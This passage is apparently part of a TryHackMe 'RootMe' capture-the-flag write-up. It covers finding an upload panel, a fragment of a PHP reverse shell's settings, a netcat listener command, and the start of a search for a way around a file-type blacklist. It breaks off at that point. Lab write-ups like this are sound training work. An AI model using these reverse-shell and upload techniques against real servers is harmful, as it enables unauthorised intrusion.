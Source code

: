 `/uploads` and `/panel` looked interesting. On TryHackMe's answer blank, it had `/*****/`, so the answer was just `/panel/`.

I first checked out the `/panel` directory, and it was a file upload page.
![RootMe](./img/rootme/panel.png)

I tested the file upload with a random image file, and it gave this success message.
![RootMe](./img/rootme/success.png)

Next, I checked out the `/uploads` directory, which shows the uploaded files, and the image I uploaded was there.
![RootMe](./img/rootme/uploads.png)

Okay, so the file upload works as intended, so we can move on to the next step.

# Getting a Shell

Question:

1. Find a form to upload and get a reverse shell, and find the flag.
   > user.txt

## Reverse Shell

I found a php reverse shell script from [GitHub](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and modified the ip address to my host machine's.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```

Next, I started a netcat listener on my host machine with:

```bash
nc -lvnp 1234
```

- `-l` is to listen for incoming connections
- `-v` is to show verbose output
- `-n` is to not resolve hostnames
- `-p` is to specify the port to listen on

Then, I uploaded the php reverse shell script to the web server with the file upload page. But... it gave an error!

![RootMe](./img/rootme/phpupload.png)

So it seems that PHP files are not allowed. I then searched the web for a way to bypass this blacklist, and found an article from [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload).
